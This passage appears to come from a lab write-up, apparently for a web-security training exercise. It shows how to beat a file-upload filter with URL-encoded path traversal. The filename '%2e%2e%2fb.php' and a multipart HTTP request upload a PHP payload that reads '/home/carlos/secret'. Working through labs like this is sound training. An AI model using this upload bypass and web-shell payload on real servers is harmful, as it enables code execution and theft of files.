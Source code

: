To execute the PHP file we will upload it in a different directory using path
traversal. We need to encode the payload or it will not work
(filename="%2e%2e%2fb.php"):

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /my-account/avatar HTTP/2
...
-----------------------------40637643122628174081089911774
Content-Disposition: form-data; name="avatar"; filename="%2e%2e%2fb.php"
Content-Type: text/php

<?php echo file_get_contents('/home/carlos/secret'); ?>
-----------------------------40637643122628174081089911774
...
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/1cc5fae594b79b29a740f65068d43778.png)
